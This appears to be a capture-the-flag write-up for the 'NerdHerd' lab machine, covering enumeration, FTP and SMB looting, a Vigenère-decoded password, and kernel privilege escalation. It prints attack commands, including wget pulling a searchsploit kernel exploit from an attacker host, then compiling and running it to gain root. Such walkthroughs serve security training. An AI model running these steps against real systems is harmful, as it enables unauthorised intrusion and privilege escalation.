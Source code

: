 # NerdHerd – Writeup

##Short description:
NerdHerd is a fun machine that mixes multiple attack vectors: enumeration, hidden hints, cryptography (Vigenère), SMB looting, and kernel exploitation for privilege escalation. The box also includes some decoys and bonus flags, which make it more engaging.

## Enumeration

We start with an nmap scan and discover:


```python
21/tcp – FTP (Anonymous login allowed)

22/tcp – SSH

139/tcp, 445/tcp – SMB

1137/tcp – HTTP (Apache page)
```
## Initial Enumeration

On port 1137, we see an Apache default page with a strong hint:

> A YouTube video: The Trashmen - Surfin Bird - Bird is the Word 1963.

This clue will be useful later.

## Directory Scan

Using Gobuster:

```python
gobuster dir -u http://10.10.222.110 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```

We find ```/admin```.

Inside the source code of the page, there are credentials encoded in Base64. After decoding, we get:

```python
username: <user>
password: fijbxslz
```

We’ll return to these credentials later.

## FTP Access

Anonymous FTP is enabled:

```python
ftp 10.10.222.110
```

We find:

An image

A text file ```hellon3rd.txt```

Reading the file gives the clue:

```python
all you need is in the leet
```
Decoding the Password

We take our Base64-decoded password ```fijbxslz``` and revisit the YouTube clue (Bird is the Word).

Using CyberChef and the Vigenère cipher with key ```BirdistheWord```, we decode the real password.

## SMB Enumeration

We don’t yet know the username, so we run enum4linux:

```python
enum4linux 10.10.222.110
```

This reveals the user: ```chuck```.

Now we can access SMB:

```python
smbclient -U 'chuck' \\\\10.10.222.110\\nerdherd_classified
```

We download ```get_secr3t.txt```, which gives us a hidden directory:

```python
/this1sn0ta******
```

Inside, we find valid SSH credentials for chuck.

User Shell

We connect via SSH:

```python
ssh chuck@10.10.222.110
```

Reading ```user.txt``` confirms user access.

## Privilege Escalation

Inside ```/home/chuck/example-content/Ubuntu_Free_Culture_Showcase```, we run:

```uname -a```


This shows a vulnerable Linux kernel version.

We check with ```searchsploit```:

```python
searchsploit linux kernel
searchsploit -m linux/local/45010.c
```

Transfer exploit to the victim:

```python
python -m http.server
```

```python
cd /tmp
wget http://10.10.10.10:8000/45010.c
gcc -o exploit 45010.c
chmod +x exploit
./exploit
```

We successfully escalate to root.

Flags

/root/root.txt → Fake / decoy flag.

The real root flag is in ```/opt/.root.txt```.

Bonus flag can be found inside:

```python
cat /root/.bash_history
```
